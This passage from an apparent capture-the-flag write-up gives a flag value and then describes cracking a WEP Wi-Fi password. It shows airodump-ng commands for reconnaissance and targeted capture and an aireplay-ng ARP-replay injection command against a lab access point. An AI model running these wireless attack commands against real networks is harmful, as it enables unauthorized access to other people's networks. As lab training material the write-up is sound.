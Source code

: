 **Flag :** `flag{2VphtQyGxsHmRoxGV05a}`

## **07. Get wifi-old password**

**Challenge Description :**  Get wifi-old password. 

### Approach

Target identification:

```shell
sudo airodump-ng wlan0mon --encrypt WEP
```

![](Images/Recon07_01.png)

Precise capture filters:

```shell
sudo airodump-ng wlan0mon -w scanchall07 --encrypt WEP -c 1 --bssid F0:9F:C2:AA:19:29
```

![](Images/Recon07_02.png)

In parallel, I need data (IV) to decrypt password, I can use airepley-ng:

```shell
sudo aireplay-ng wlan0mon --arpreplay -b F0:9F:C2:AA:19:29 -h DE:B9:68:68:C9:EC
```

![](Images/Recon07_03.png)
